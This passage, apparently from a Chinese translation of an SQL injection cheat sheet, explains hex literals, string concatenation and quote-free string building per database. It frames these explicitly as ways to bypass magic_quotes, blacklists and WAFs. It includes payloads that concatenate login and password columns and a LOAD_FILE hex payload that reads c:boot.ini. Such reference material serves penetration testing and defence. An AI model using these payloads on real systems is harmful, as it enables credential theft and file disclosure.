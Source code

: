 对于绕过非常有用，如 magic_quotes() 和类似的过滤器，甚至是各种WAF。

0xHEXNUMBER（SM）
你可以这样使用 16 进制数。
SELECT CHAR(0x66)（S）
SELECT 0x5045 （这不是一个整数，而会是一个 16 进制字符串）（M）
SELECT 0x50 + 0x45 （现在这个是整数了！）（M）

字符串操作

字符串相关的操作。这些对于构造不含引号、绕过黑名单或探测后端数据库的注入非常有用。

字符串的连结

+ （S）

SELECT login + '-' + password FROM members

|| （*MO）

SELECT login || '-' || password FROM members

* 关于 MySQL 的 “||”

仅当 MySQL 在 ANSI 模式下这（指 “||” 符号）才会执行，其他模式下 MySQL 会当成 逻辑运算符 并返回 0。更好的方式是使用 MySQL 的 CONCAT() 函数。

CONCAT(str1, str2, str3, …) （M）

连接参数里提供的字符串。

SELECT CONCAT(login, password) FROM members

没有引号的字符串

有一些直接的方式可以使用字符串，但通常更合适的是使用 CHAR() （MS） 和 CONCAT() （M） 来生成无引号的字符串。

0x457578 （M） - 字符串的 16 进制表示
SELECT 0x457578
这在 MySQL 中会被当做字符串处理。在 MySQL 中更简单地生成 16 进制字符串的方式是使用下面这个方法：
SELECT CONCAT('0x',HEX('c:boot.ini'))

在 MySQL 中使用 CONCAT() 函数
SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77)) （M）
这会返回‘KLM’。

SELECT CHAR(75)+CHAR(76)+CHAR(77) (S)
这会返回‘KLM’。

SELECT CHR(75)||CHR(76)||CHR(77) (O)
这会返回‘KLM’。

SELECT (CHaR(75)||CHaR(76)||CHaR(77)) (P)
这会返回‘KLM’。

基于 16 进制的 SQL 注入示例

SELECT LOAD_FILE(0x633A5C626F6F742E696E69) （M）

这会显示 c:boot.ini 的内容

字符串变体 & 相关知识
